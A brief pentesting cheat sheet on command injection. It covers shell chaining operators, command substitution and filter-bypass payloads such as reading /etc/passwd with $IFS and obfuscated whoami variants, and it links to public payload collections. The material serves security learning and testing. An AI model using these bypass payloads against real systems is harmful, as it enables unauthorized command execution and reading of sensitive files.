 # Command Injection

**Command injection** is a vulnerability that allows the execution of arbitrary commands on the host server, potentially leading to unauthorized access, data theft, or system compromise.

## Chaining and Invoking

Combining commands can be achieved (on both, Windows and Linux systems) using these operators

```powershell
;    # Executes one command and then another
&    # Executes a command in the background, followed by the other one
|    # Redirects the output the first command as input to the second command
&&   # Executes the second command if the first command succeeds
||   # Executes the second command if the first command fails
```

Its also possible to inject command via **command substitution**, where the output of a command is captured and used in another context

```bash
$(command)    # Both windows and linux systems
`command`     # Only linux systems
```

## Bypasses

* [https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#common-limitations-bypasses](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#common-limitations-bypasses)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses)

### Space Bypass

It is possible to use the **Internal Field Separator** `$IFS` to avoid using spaces on commands

```bash
cat${IFS}/etc/passwd
```

### Blacklisted Words

```bash
# Quotes
w'h'o'a'm'i'     # Both windows and linux systems
'w'h'o'a'm'i     # Only linux systems
wh''oami         # Both windows and linux systems

# Backslashes
\w\h\o\a\m\i     # Only linux systems
w\h\o\a\m\i      # Only linux systems

# $()
wh$()oami        # Only linux systems
wh$(echo oa)mi   # Only linux systems

# ``
wh``oami         # Only linux systems
wh`echo oa`mi    # Only linux systems

# $@
wh$@oami         # Only linux systems
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)\
[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
